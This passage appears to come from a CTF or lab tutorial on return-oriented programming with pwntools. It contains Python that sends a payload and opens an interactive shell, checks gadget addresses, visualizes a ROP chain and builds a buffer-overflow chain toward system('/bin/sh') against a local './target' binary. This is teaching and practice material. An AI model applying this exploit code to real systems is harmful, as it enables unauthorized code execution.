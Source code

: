 ```python
    p.sendline(payload)
    p.interactive()

def validate_gadgets():
    """Verify gadgets work as expected"""
    elf = ELF('./target')
    
    # Test each gadget individually
    gadgets = [
        (0x400743, "pop rdi; ret"),
        (0x400741, "pop rsi; pop r15; ret"),
        (0x400517, "syscall; ret")
    ]
    
    for addr, desc in gadgets:
        print(f"Testing {desc} at 0x{addr:x}")
        
        # Disassemble to verify
        code = elf.read(addr, 10)
        disasm = disasm(code, arch='amd64')
        print(disasm)
```

### ROP Chain Visualization

```python
#!/usr/bin/env python3
from pwn import *

def visualize_rop_chain(chain_data):
    """Visualize ROP chain structure"""
    print("ROP Chain Visualization:")
    print("=" * 50)
    
    offset = 0
    for i in range(0, len(chain_data), 8):
        addr = u64(chain_data[i:i+8])
        print(f"Stack[{offset:2d}]: 0x{addr:016x}")
        
        # Try to identify what this address points to
        try:
            elf = ELF('./target')
            if addr in elf.symbols.values():
                for name, sym_addr in elf.symbols.items():
                    if sym_addr == addr:
                        print(f"           ^ {name}")
                        break
        except:
            pass
        
        offset += 8

def test_rop_step_by_step():
    """Test ROP chain one gadget at a time"""
    base_payload = b'A' * 72
    
    # Test each step
    steps = [
        (pop_rdi, "pop rdi; ret"),
        (bin_sh_addr, "/bin/sh string"),
        (system_addr, "system() call")
    ]
    
```